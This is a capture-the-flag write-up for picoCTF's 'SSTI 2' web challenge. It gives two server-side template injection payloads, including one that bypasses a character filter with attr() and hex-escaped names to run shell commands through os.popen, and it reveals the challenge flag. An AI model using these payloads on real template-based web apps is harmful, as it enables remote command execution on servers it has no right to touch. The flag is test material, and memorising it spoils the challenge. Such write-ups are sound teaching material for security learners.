


## SSTI 2
 

**Description**

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

**Write-up**




{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}


Played around with different patterns to see if I could identify the block list, characters such as [], () and ' were filtered under specific combinations.

After some quick trial and error managed to find the payload:
```{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}```

This payload bypasses the filter and is able to print the flag.




**Solution**


Flag: picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}


[back](./../..)